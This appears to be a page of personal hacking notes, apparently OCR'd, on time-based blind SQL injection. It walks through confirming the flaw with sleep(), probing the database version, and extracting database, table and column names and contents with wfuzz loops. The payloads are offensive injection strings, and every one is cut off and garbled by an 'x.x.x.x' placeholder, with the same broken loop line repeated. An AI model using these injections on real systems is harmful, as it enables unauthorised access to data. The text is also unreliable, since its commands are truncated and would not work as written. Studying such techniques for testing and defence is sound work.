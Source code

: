 ```yaml
---
tags: 🔻 🔻/Enumeration/sqlinjection
aliases: Hacking Notes
---
```


# Time based SQL


Confirm time-based blind SQL injection using sleep() function  


and sleep(x.x.x.x  
  
Determine database version with time-based blind SQL injection using sleep(), like"", and conditional if, assuming the back-end database is running version 5  


and if((select version()) like "5%", sleep(x.x.x.x  
  
Determine database name with time-based blind SQL injection by observing http response time with substr(), ascii(), and wfuzz.The below range is the standard ASCII characters (32-127)  
for i in $(seq 1 x.x.x.x  
  
Determine table name with time-based blind SQL injection by observing http response time with substr(), ascii(), if, and wfuzz.The below range is the standard ASCII characters (32-127)  
for i in $(seq 1 x.x.x.x  
  
Determine column name with time-based blind SQL injection by observing http response time with substr(), ascii(), if, and wfuzz.The below range is the standard ASCII characters (32-127)  
for i in $(seq 1 x.x.x.x  
  
Extract column content with time-based blind SQL injection by observing http response time with substr(), ascii(), if, and wfuzz.The below range is the standard ASCII characters (32-127)  
for i in $(seq 1

